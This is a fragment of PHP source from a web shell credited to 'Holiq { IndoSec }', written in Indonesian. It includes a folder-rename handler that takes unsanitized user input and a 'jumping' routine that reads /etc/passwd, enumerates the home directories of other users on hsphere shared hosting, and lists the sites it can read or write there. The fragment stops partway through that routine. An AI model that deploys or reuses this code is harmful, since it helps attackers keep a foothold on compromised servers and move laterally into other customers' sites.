    
    //rename
    if (isset($_GET['rename'])) {
        $dir = $_GET['rename'];
        $output="
        [ <a href='?hapus_folder=".$path."/".$dir."'>Hapus</a> ]  [ <a href='?rename=".$path."/".$dir."'>Rename</a> ]
        <h4><i class='fa fa-folder'></i> Rename Folder :</h4>
        <form method='POST'>
            <input type='text' class='form-control' name='namanew' placeholder='Masukan Nama Baru...'><br />
            <button type='sumbit' class='btn btn-info btn-block' name='ganti'>Ganti!!</button>
        ";
        echo $output;
    }
   
    if (isset($_POST['ganti'])) {
        $lama = $dir;
        $baru = $_POST['namanew'];
        $ubah = rename($lama, $baru);
        if($ubah) {
            echo "<script>window.location='?dir=".dirname($dir)."'; alert('Berhasil Mengganti Nama');</script>";
        }else{
            echo "Gagal Mengganti Nama<br/><br/>" ;
        }
    }
   
   
/*
////////////////////////////////////////////////////////////////////////////////
\\\\\\\\\\\\\\\\\\\\\\\\\\©2019 Holiq { IndoSec }\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\
////////////////////////////////////////////////////////////////////////////////
*/
 
//Fungsi_Tambahan
if($_GET['aksi'] == 'jumping') {
    $i = 0;
    echo "<div class='card container'>";
    if(preg_match("/hsphere/", $dir)) {
        $urls = explode("\r\n", $_POST['url']);
        if(isset($_POST['jump'])) {
            echo "<pre>";
            foreach($urls as $url) {
                $url = str_replace(array("http://","www."), "", strtolower($url));
                $etc = "/etc/passwd";
                $f = fopen($etc,"r");
                while($gets = fgets($f)) {
                    $pecah = explode(":", $gets);
                    $user = $pecah[0];
                    $dir_user = "/hsphere/local/home/$user";
                    if(is_dir($dir_user) === true) {
                        $url_user = $dir_user."/".$url;
                        if(is_readable($url_user)) {
                            $i++;
                            $jrw = "[<font color=green>R</font>] <a href='?dir=$url_user'><font color=#0046FF>$url_user</font></a>";
                            if(is_writable($url_user)) {
                                $jrw = "[<font color=green>RW</font>] <a href='?dir=$url_user'><font color=#0046FF>$url_user</font></a>";
                            }
                            echo $jrw."<br>";
                        }
                    }
                }
            }
        if($i == 0) {